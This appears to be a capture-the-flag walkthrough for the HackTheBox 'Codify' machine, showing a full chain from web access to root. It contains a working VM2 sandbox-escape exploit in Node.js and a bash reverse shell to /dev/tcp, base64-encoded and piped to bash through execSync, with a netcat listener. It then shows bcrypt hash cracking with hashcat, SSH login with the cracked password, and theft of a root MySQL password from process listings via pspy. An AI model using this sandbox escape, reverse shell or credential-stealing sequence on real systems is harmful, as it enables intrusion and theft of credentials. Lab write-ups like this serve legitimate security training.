 Initial enumeration:

http://codify.htb/about -> Explains that it uses VM2 in a sandbox
http://codify.htb/editor -> Allows you to submit nodejs code to "test"

VM2 has an exploit: https://security.snyk.io/vuln/SNYK-JS-VM2-5537100

in there, I used the following code to a responsive shell
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("ls -latr").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked

in the .execSync("") function, I setup a base64 encode to bypass URL security

bash -i >& /dev/tcp/ip address/4444 0>&1 -> base64 encoded -> YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41OS80NDQ0IDA+JjE=
Then ship the payload using .execSync("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41OS80NDQ0IDA+JjE= | base64 -d | bash")

with a listener "nc -lvnp 4444"
kali:~$ nc -lvnp 4444
listening on [any] 4444 ...

connect to [10.10.14.59] from (UNKNOWN) [10.10.11.239] 52798
bash: cannot set terminal process group (1270): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ 

in /var/www/html/contact there's a sqlite3 .db file.
sqlite> .tables 
.tables
tickets  users  
sqlite> .users
.users
sqlite> SELECT * from users;
SELECT * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2

Then using a hash identifier, it's bcrypt.
Cracked the hash via hashcat -m 3200 <rock you word list>

$ hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
                                                                                                                                                                                                            OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]                                                                                                                                                                                 
* Device #1: cpu-haswell-Intel(R) Core(TM) i7-8550U CPU @ 1.80GHz, 6820/13704 MB (2048 MB allocatable), 8MCU                                                                                                                                
                                                                                                                                                                                                                                            
Minimum password length supported by kernel: 0                                                                                                                                                                                              
Maximum password length supported by kernel: 72                                                                                                                                                                                             
                                                                                                                                                                                                                                            
Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates                                                                                                                                                                
Rules: 1                                                                                                                                                                                                                                    
                                                                                                                                                                                                                                            
Optimizers applied:                                                                                                                                                                                                                         
* Zero-Byte                                                                                                                                                                                                                                 
* Single-Hash                                                                                                                                                                                                                               
* Single-Salt                                                                                                                                                                                                                               
                                                                                                                                                                                                                                            
Watchdog: Temperature abort trigger set to 90c                                                                                                                                                                                              
                                                                                                                                                                                                                                            
Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLH.../p/Zw2
Time.Started.....: Fri May  3 19:28:38 2024 (1 min, 6 secs)
Time.Estimated...: Fri May  3 19:29:44 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       21 H/s (11.97ms) @ Accel:8 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1408/14344385 (0.01%)
Rejected.........: 0/1408 (0.00%)
Restore.Point....: 1344/14344385 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4080-4096
Candidate.Engine.: Device Generator
Candidates.#1....: teacher -> tagged
Hardware.Mon.#1..: Temp: 48c Util: 92%

Started: Fri May  3 19:28:33 2024
Stopped: Fri May  3 19:29:46 2024

Password found: spongebob1
This allows me to SSH into the box as joshua
ssh joshua@10.10.11.239

Priv Escalation Enumeration

sudo -l shows that /opt/scripts/mysql-backup.sh is being run as root privilege

Looking at the script, it is susceptible to SQL injection for the root password.
The password is then sent off the mysqldump which is located in /root/.creds file.
This means that, if we can monitor the PID AS mysql-backup.sh is being run, we should be able to see the password be sent off in the PID since it's catting from the .creds file

Using pspy, we execute this to snoop the PID then run the backupsql.sh

2024/05/03 23:49:22 CMD: UID=0    PID=21396  | /bin/bash /opt/scripts/mysql-backup.sh 
2024/05/03 23:49:22 CMD: UID=1000 PID=21395  | sudo /opt/scripts/mysql-backup.sh 
2024/05/03 23:49:24 CMD: UID=0    PID=21398  | /bin/bash /opt/scripts/mysql-backup.sh 
2024/05/03 23:49:24 CMD: UID=0    PID=21403  | /usr/bin/grep -Ev (Database|information_schema|performance_schema) 
2024/05/03 23:49:24 CMD: UID=0    PID=21402  | /usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 -e SHOW DATABASES; 
2024/05/03 23:49:24 CMD: UID=0    PID=21401  | /bin/bash /opt/scripts/mysql-backup.sh 
2024/05/03 23:49:24 CMD: UID=0    PID=21406  | /bin/bash /opt/scripts/mysql-backup.sh 
2024/05/03 23:49:24 CMD: UID=0    PID=21405  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 mysql 
2024/05/03 23:49:24 CMD: UID=0    PID=21409  | /bin/bash /opt/scripts/mysql-backup.sh 
2024/05/03 23:49:24 CMD: UID=0    PID=21408  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 sys 
2024/05/03 23:49:46 CMD: UID=1000 PID=21415  | 
2024/05/03 23:49:46 CMD: UID=0    PID=21416  | 
2024/05/03 23:49:51 CMD: UID=0    PID=21417  | 

Then using kljh12k3jhaskjh12kjh3 as the password

joshua@codify:~$ su -
Password: 
root@codify:~# ls
root.txt  scripts
root@codify:~# cat root.txt
a24ce1966e756ce7fe0758e20118f9ce

